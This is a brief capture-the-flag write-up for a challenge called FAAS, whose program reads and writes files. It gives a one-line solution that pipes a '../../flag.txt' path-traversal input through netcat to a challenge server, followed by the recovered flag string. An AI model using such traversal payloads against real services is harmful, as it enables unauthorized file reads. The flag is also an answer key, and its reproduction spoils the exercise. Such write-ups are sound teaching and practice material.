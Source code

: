 # FAAS (Filesystem As A Service)

This challenge provided a file reader/writer program, we can read the flag in `/flag.txt`.

Solve:`printf "0\n../../flag.txt\n1\n0\n100\n1\n"  | nc 161.97.155.116 1337`

`QnQSec{1e5f0159edd5b616423e15bd973971f3}`
